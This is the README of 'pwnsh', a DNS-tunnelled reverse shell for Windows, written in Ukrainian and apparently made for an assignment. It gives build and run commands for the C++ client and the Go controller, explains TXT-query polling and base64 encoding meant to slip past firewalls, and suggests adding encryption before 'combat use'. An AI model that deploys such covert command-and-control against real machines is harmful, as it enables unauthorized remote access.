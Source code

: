 # pwnsh

Reverse shell over DNS для Windows (Pwn-Shell!)

Автор - Андрій "Андерсон" Дунай.

Ліцензія - [WTFPL](http://www.wtfpl.net/).

## Компоненти

- `client` - клієнтська аплікація на C++, будується за допомогою MinGW.

  Не залежить від `libstdc++` для покращення переносності і зменшення розміру бінарника (жодних векторів та new/delete - тільки stdlib, тільки олдскул!)

  Збірка та запуск:

  ```sh
  $ cd client
  $ make
  $ # або:
  $ make DNS_SERVER=127.0.0.1 DNS_POLL_INTERVAL=1000
  $ ./pwnsh.exe
  ```

`server` - імплементація контролера для клієнта. Написана на Go.

  Збірка та запуск:

  ```sh
  $ cd server
  $ go run . 0.0.0.0:53
  $ # для побудови бінарника:
  $ go build .
  ```

## Як це працює

Клієнт здійснює полінг DNS-сервера за допомогою TXT-запитів. Хост в запиті - це дані, які клієнт хоче передати серверу. Відповідь - це дані, які сервер хоче передати клієнту.

Якщо клієнт не має жодних даних для сервера, він надсилає пустий TXT-запит.

Якщо сервер не має команд для клієнта, які очікують виконання, то він надсилає пусту TXT-відповідь.

Всі дані кодуються в base64 з деякими модифікаціями (`_-` замість `+/`), щоб виглядати як валідні ідентифікатори і не дратувати фаєрволи.

Пусті запити містять лише крапку (оскільки DnsQuery_A автоматично дописує її в кінці хоста в кожному запиті).

## Речі, які можна легко вдосконалити

- Я звик писати коментарі і логи англійською мовою, тому в цьому коді буде суміш англійської та української мов.
- Дані не шифруються. Перед бойовим використанням варто було б використати принаймні якийсь симетричний алгоритм.
- Як і вказано в завданні, кожна команда запускається в окремій оболонці.
  Проте було б нескладно додати можливість використання оболонки в інтерактивному режмиі впродовж тривалішого часу - це б спростило навігацію по системі.
- Поточна імплементація сервера розрахована на єдиного активного клієнта. Можна додати можливість обирати, якому з клієнтів надсилати команду.
